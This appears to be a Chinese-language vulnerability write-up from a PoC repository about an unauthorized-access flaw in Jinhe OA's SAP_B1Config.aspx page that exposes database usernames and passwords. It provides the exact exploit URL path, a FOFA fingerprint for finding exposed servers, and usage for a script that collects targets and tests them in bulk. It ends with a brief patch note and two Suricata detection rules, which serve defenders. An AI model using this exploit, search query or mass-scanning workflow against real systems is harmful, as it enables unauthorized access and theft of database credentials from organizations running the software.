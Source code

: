 ### 产品简介  
金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平合等服务.  

### 漏洞概述  
金和OA SAP_B1Config.aspx存在未授权访问漏洞，攻击者可通过此漏洞获取数据库的账户密码等敏感信息。  

### 指纹识别  
fofa: app="金和网络-金和OA"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_OA_SAP_B1Config_unauthorized/1.png)

### 漏洞利用  
```
poc:
/C6/JHsoft.CostEAI/SAP_B1Config.aspx/?manage=1
```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_OA_SAP_B1Config_unauthorized/2.png)

### 测试和利用脚本  
```
python3 Jinhe_OA_SAP_B1Config_unauthorized.py -h          
usage: Jinhe_OA_SAP_B1Config_unauthorized.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA SAP_ B1Config.aspx has an unauthorized access vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_OA_SAP_B1Config_unauthorized.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_OA_SAP_B1Config_unauthorized.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA SAP_ B1Config.aspx has an unauthorized access vulnerability"; flow:established,to_server; flowbits:set,Jinhe_OA_SAP_B1Config_unauthorized;noalert; content:"get";http_method;nocase; content:"/C6/JHsoft.CostEAI/SAP_B1Config.aspx/?manage=1";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E5%92%8C/Jinhe_OA_SAP_B1Config_unauthorized; classtype:web-attck; metadata:created_at 2024-1-8,updated_at 2024-1-8,creater:YUUKI4O4; sid:7; rev:1;)
alert http any any -> any any (msg:"Jinhe OA SAP_ B1Config.aspx has an unauthorized access vulnerability successfully"; flow:established,from_server; flowbits:isset,Jinhe_OA_SAP_B1Config_unauthorized; content:"200";http_stat_code; content:"txtDatabaseServer";nocase;http_server_body; content:"txtLicenseServer";nocase;http_server_body; content:"txtDatabaseName";nocase;http_server_body; content:"ddlDatabaseType";nocase;http_server_body; content:"txtUserName";nocase;http_server_body; content:"txtUserPassword";nocase;http_server_body; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E5%92%8C/Jinhe_OA_SAP_B1Config_unauthorized; classtype:web-attck; metadata:created_at 2024-1-8,updated_at 2024-1-8,creater:YUUKI4O4; sid:8; rev:1;)
```
